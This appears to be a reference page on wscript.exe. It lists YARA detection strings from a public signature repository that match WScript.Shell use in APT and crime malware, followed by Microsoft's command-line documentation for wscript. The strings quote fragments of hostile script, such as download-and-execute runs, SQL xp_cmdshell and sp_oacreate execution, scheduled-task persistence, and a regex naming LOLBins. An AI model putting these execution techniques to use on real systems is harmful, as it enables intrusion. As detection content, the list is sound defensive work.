[signature-base](https://github.com/Neo23x0/signature-base) | [apt_khrat.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_khrat.yar) | $x2 = "CreateObject(\"WScript.Shell\").Run \"rundll32.exe javascript:\"\"\\..\\mshtml,RunHTMLApplication" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_khrat.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_khrat.yar) | $s4 = "'WScript.Echo http.responseText " fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_minidionis.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_minidionis.yar) | $s1 = "Wscript.Sleep 5000" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_minidionis.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_minidionis.yar) | $s3 = "Set WshShell = CreateObject(\"WScript.Shell\")" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_oilrig.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_oilrig.yar) | $s4 = "CreateObject(\"WScript.Shell\").Run cmd, 0o" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_oilrig.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_oilrig.yar) | /* Set wss = CreateObject("wScript.Shell") */ | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_oilrig.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_oilrig.yar) | /* \x0aSet wss = CreateObject("wScript.Shell") */ | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_oilrig.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_oilrig.yar) | $x3 = "CreateObject(\"WScript.Shell\").Run Replace(DownloadExecute,\"-_\",\"bat\")" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_oilrig.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_oilrig.yar) | $x4 = "CreateObject(\"WScript.Shell\").Run DnsCmd,0" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_oilrig.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_oilrig.yar) | $x4 = "wscript /b \\`\"${global:$address1" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_olympic_destroyer.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_olympic_destroyer.yar) | $x2 = "cmd.exe /c (echo strPath = Wscript.ScriptFullName & echo.Set FSO = CreateObject^(\"Scripting.FileSystemObject\"^)" wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_rancor.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_rancor.yar) | $x2 = "CreateObject(\"Wscript.Shell\").Run \"explorer.exe \"\"http" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_rancor.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_rancor.yar) | $x3 = "CreateObject(\"Wscript.Shell\").Run \"schtasks /create" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_rocketkitten_keylogger.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_rocketkitten_keylogger.yar) | $s2 = "wscript.exe " fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_rokrat.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_rokrat.yar) | $s5 = "'Wscript.echo \"Base64 encoded: \" + base64Encoded" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_rokrat.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_rokrat.yar) | $s6 = "set shell = WScript.CreateObject(\"WScript.Shell\")" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_stonedrill.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_stonedrill.yar) | $s1 = "cmd /c WMIC Process Call Create \"C:\\Windows\\System32\\Wscript.exe //NOLOGO " fullword wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_stonedrill.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_stonedrill.yar) | $s3 = "WScript.Sleep(10 * 1000)" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_thrip.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_thrip.yar) | $x2 = "new $._x('WScript.Shell');" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_turla.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_turla.yar) | $s2 = "{WScript.Quit();}" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_turla.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_turla.yar) | $s4 = " = WScript.Arguments;var " ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_volatile_cedar.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_volatile_cedar.yar) | $s6 = "Dim oScriptNet = Server.CreateObject(\"WSCRIPT.NETWORK\")" fullword | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_winnti_burning_umbrella.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_winnti_burning_umbrella.yar) | $a2 = "<set ws=wscript.createobject(\"wscript.shell\")" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [apt_woolengoldfish.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/apt_woolengoldfish.yar) | $s3 = "set WshShell = WScript.CreateObject(\"WScript.Shell\")" fullword | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [cn_pentestset_tools.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/cn_pentestset_tools.yar) | $s1 = "wscript.echo \"from : http://www.xxx.com/\" &vbTab&vbCrLf" fullword ascii /* PEStudio Blacklist: strings */ | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [cn_pentestset_tools.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/cn_pentestset_tools.yar) | $s1 = ";use master declare @o int exec sp_oacreate 'wscript.shell',@o out exec sp_oamet" wide /* PEStudio Blacklist: strings */ | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [cn_pentestset_tools.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/cn_pentestset_tools.yar) | $s4 = ";use master declare @o int exec sp_oacreate 'wscript.shell',@o out exec sp_oamet" wide /* PEStudio Blacklist: strings */ | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [cn_pentestset_tools.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/cn_pentestset_tools.yar) | $s2 = "[wscript.shell]" fullword ascii /* PEStudio Blacklist: strings */ | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [cn_pentestset_webshells.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/cn_pentestset_webshells.yar) | $s1 = "<a href=\"?s=h&o=wscript\">[WScript.shell]</a> " fullword ascii /* PEStudio Blacklist: strings */ | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [crime_cobaltgang.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/crime_cobaltgang.yar) | $x1 = "WriteLine(\"(new ActiveXObject('WScript.Shell')).Run('cmd /c c:/" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [crime_cobaltgang.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/crime_cobaltgang.yar) | $x2 = "WriteLine(\" (new ActiveXObject('WScript.Shell')).Run('regsvr32 /s" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [crime_cobaltgang.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/crime_cobaltgang.yar) | $x10 = ";sh=x('WScript.Shell');" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [crime_goldeneye.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/crime_goldeneye.yar) | $x2 = "var shell = new ActiveXObject('WScript.Shell');shell.run(t'" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [crime_phish_gina_dec15.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/crime_phish_gina_dec15.yar) | $s3 = "WScript.Shell" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [crime_wannacry.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/crime_wannacry.yar) | $s3 = " = WScript.CreateObject(\"WScript.Shell\")" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [crime_wannacry.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/crime_wannacry.yar) | $s3 = "echo SET ow = WScript.CreateObject(\"WScript.Shell\")> " ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_case_anomalies.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_case_anomalies.yar) | description = "Detects obfuscated wscript.shell commands" | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_case_anomalies.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_case_anomalies.yar) | $s1 = "WScript.Shell\").Run" nocase ascii wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_case_anomalies.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_case_anomalies.yar) | $sn1 = "WScript.Shell\").Run" ascii wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_case_anomalies.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_case_anomalies.yar) | $sn2 = "wscript.shell\").run" ascii wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_case_anomalies.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_case_anomalies.yar) | $sn3 = "WSCRIPT.SHELL\").RUN" ascii wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_case_anomalies.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_case_anomalies.yar) | $sn4 = "Wscript.Shell\").Run" ascii wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_case_anomalies.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_case_anomalies.yar) | $sn5 = "WScript.Shell\").Run" ascii wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_case_anomalies.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_case_anomalies.yar) | $sn6 = "WScript.shell\").Run" ascii wide | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_cn_hacktool_scripts.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_cn_hacktool_scripts.yar) | $s1 = "Set ws = Wscript.CreateObject(\"Wscript.Shell\")" fullword ascii  | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_hta_anomalies.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_hta_anomalies.yar) | description = "Detects WScript Shell in HTA" | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_hta_anomalies.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_hta_anomalies.yar) | $s2 = "<script>var b=new ActiveXObject(\"WScript.Shell\");" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_kerberoast.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_kerberoast.yar) | $s1 = "Wscript.Echo \"User Logon: \" & oRecordset.Fields(\"samAccountName\")" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_kerberoast.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_kerberoast.yar) | $s2 = "Wscript.Echo \" USAGE:        \" & WScript.ScriptName & \" SpnToFind [GC Servername or Forestname]\"" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_malware_set_qa.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_malware_set_qa.yar) | $s1 = "CreateObject(\"WScript.Shell\").Run(" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_mal_scripts.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_mal_scripts.yar) | $s2 = "new ActiveXObject(\"WScript.Shell\").Run(" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_mal_scripts.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_mal_scripts.yar) | $x1 = "new ActiveXObject('WScript.Shell')).Run('cmd /c " ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_mal_scripts.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_mal_scripts.yar) | $x3 = "new ActiveXObject('WScript.Shell')).Run('regsvr32 /s" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_mal_scripts.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_mal_scripts.yar) | $s3 = "&WSCRIPT.SCRIPTFULLNAME&CHR" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_metasploit_payloads.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_metasploit_payloads.yar) | $s2 = "CreateObject(\"Wscript.Shell\")" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_metasploit_payloads.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_metasploit_payloads.yar) | $s1 = "= CreateObject(\"Wscript.Shell\")" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_metasploit_payloads.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_metasploit_payloads.yar) | $s3 = "= CreateObject(\"Wscript.Shell\") " fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_powershell_susp.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_powershell_susp.yar) | $s1 = "= CreateObject(\"Wscript.Shell\")" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_powershell_susp.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_powershell_susp.yar) | $s1 = ".CreateObject(\"WScript.Shell\")" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_recon_indicators.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_recon_indicators.yar) | $s12 = "CreateObject(\"WScript.Shell\").RegWrite" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_suspicious_strings.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_suspicious_strings.yar) | $a1 = "= CreateObject(\"Wscript.Shell\")" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_suspicious_strings.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_suspicious_strings.yar) | $s3 = "wscript" fullword ascii nocase | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_susp_lnk_files.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_susp_lnk_files.yar) | $s12 = "WScript.shell" ascii wide fullword nocase | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_susp_office_dropper.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_susp_office_dropper.yar) | $a2 = "WScript.Shell" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_susp_sfx.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_susp_sfx.yar) | $x1 = "RunProgram=\"wscript.exe" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [gen_url_persitence.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/gen_url_persitence.yar) | $file1 = /[\x0a\x0d](IconFile\|(Base\|)URL)\s*=[^\x0d]*(powershell\|cmd\|certutil\|mshta\|wscript\|cscript\|rundll32\|wmic\|regsvr32\|msbuild)(\.exe\|)[^\x0d]{2,}\x0d/ nocase | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor-hacktools.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor-hacktools.yar) | $s7 = "EXEC master..xp_cmdshell 'wscript.exe cc.js'" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor-hacktools.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor-hacktools.yar) | $s1 = "wscript.Echo \"USAGE:KillLog.vbs LogFileName YourIP.\"" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor-hacktools.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor-hacktools.yar) | $s3 = "Set objNet = WScript.CreateObject( \"WScript.Network\" )" fullword ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor-hacktools.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor-hacktools.yar) | $s3 = "WScript.Echo \"   $$\\      $$\\ $$\\      $$\\ $$$$$$\\ $$$$$$$$\\ $$\\   $$\\ $$$$$$$$\\  $$$$$$" | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor-hacktools.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor-hacktools.yar) | $s4 = "WScript.Shell" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor-webshells.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor-webshells.yar) | $s1 = "seal.write \"Set WshShell = CreateObject(\"\"WScript.Shell\"\")\" & vbcrlf" fullword | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor-webshells.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor-webshells.yar) | $s16 = "Set oScriptNet = Server.CreateObject(\"WSCRIPT.NETWORK\")" fullword | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [thor-webshells.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/thor-webshells.yar) | $s2 = "\"Set WshShell = CreateObject(\"\"WScript.Shell\"\")" | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)
[signature-base](https://github.com/Neo23x0/signature-base) | [yara_mixed_ext_vars.yar](https://github.com/Neo23x0/signature-base/blob/master/yara/yara_mixed_ext_vars.yar) | $s2 = "ActiveXObject(\"WScript.Shell\")" ascii | [CC BY-NC 4.0](https://github.com/Neo23x0/signature-base/blob/master/LICENSE)

## Additional Info*

**The information below is copied from [MicrosoftDocs](https://github.com/MicrosoftDocs/windowsserverdocs), which is maintained by [Microsoft](https://opensource.microsoft.com/codeofconduct/). Available under [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/) license.*

---

## wscript


Windows Script Host provides an environment in which users can execute scripts in a variety of languages that use a variety of object models to perform tasks.

### Syntax

```
wscript [<scriptname>] [/b] [/d] [/e:<engine>] [{/h:cscript|/h:wscript}] [/i] [/job:<identifier>] [{/logo|/nologo}] [/s] [/t:<number>] [/x] [/?] [<ScriptArguments>]
```

##### Parameters

|Parameter|Description|
|---------|-----------|
|scriptname|Specifies the path and file name of the script file.|
|/b|Specifies batch mode, which does not display alerts, scripting errors, or input prompts. This is the opposite of **/i**.|
|/d|Starts the debugger.|
|/e|Specifies the engine that is used to run the script. This lets you run scripts that use a custom file name extension. Without the /e parameter, you can only run scripts that use registered file name extensions. For example, if you try to run this command:<br>```cscript test.admin```<br>You will receive this error message: Input Error: There is no script engine for file extension .admin.<br>One advantage of using nonstandard file name extensions is that it guards against accidentally double-clicking a script and running something you really did not want to run. <br>This does not create a permanent association between the .admin file name extension and VBScript. Each time you run a script that uses a .admin file name extension, you will need to use the /e parameter.|
|/h:cscript|Registers **cscript.exe** as the default script host for running scripts.|
|/h:wscript|Registers **wscript.exe** as the default script host for running scripts. This is the default when the **/h** option is omitted.|
|/i|Specifies interactive mode, which displays alerts, scripting errors, and input prompts.</br>This is the default and the opposite of **/b**.|
|/job:\<identifier>|Runs the job identified by *identifier* in a **.wsf** script file.|
|/logo|Specifies that the Windows Script Host banner is displayed in the console before the script runs.</br>This is the default and the opposite of **/nologo**.|
|/nologo|Specifies that the Windows Script Host banner is not displayed before the script runs. This is the opposite of **/logo**.|
|/s|Saves the current command prompt options for the current user.|
|/t:\<number>|Specifies the maximum time the script can run (in seconds). You can specify up to 32,767 seconds.</br>The default is no time limit.|
|/x|Starts the script in the debugger.|
|ScriptArguments|Specifies the arguments passed to the script. Each script argument must be preceded by a slash (/).|
|/?|Displays Help at the command prompt.|

### Remarks

-   Performing this task does not require you to have administrative credentials. Therefore, as a security best practice, consider performing this task as a user without administrative credentials.
-   To open a command prompt, on the **Start** screen, type **cmd**, and then click **command prompt**.
-   Each parameter is optional; however, you cannot specify script arguments without specifying a script. If you do not specify a script or any script arguments, **wscript.exe** displays the **Windows Script Host Settings** dialog box, which you can use to set global scripting properties for all scripts that **wscript.exe** runs on the local computer.
-   The **/t** parameter prevents excessive running of scripts by setting a timer. When the time exceeds the specified value, **wscript** interrupts the script engine and ends the process.
-   Windows script files usually have one of the following file name extensions: **.wsf**, **.vbs**, **.js**.
-   If you double-click a script file with an extension that has no association, the **Open With** dialog box appears. Select **wscript** or **cscript**, and then select **Always use this program to open this file type**. This registers **wscript.exe** or **cscript.exe** as the default script host for files of this file type.
-   You can set properties for individual scripts. See [Windows Script Host overview](/previous-versions/windows/it-pro/windows-server-2003/cc738350(v=ws.10)) for more information.
-   Windows Script Host can use **.wsf** script files. Each **.wsf** file can use multiple scripting engines and perform multiple jobs.

### Additional References

- [Command-Line Syntax Key](https://github.com/MicrosoftDocs/windowsserverdocs/tree/master/WindowsServerDocs/administration/windows-commands/command-line-syntax-key.md)

---


MIT License. Copyright (c) 2020 Strontic.


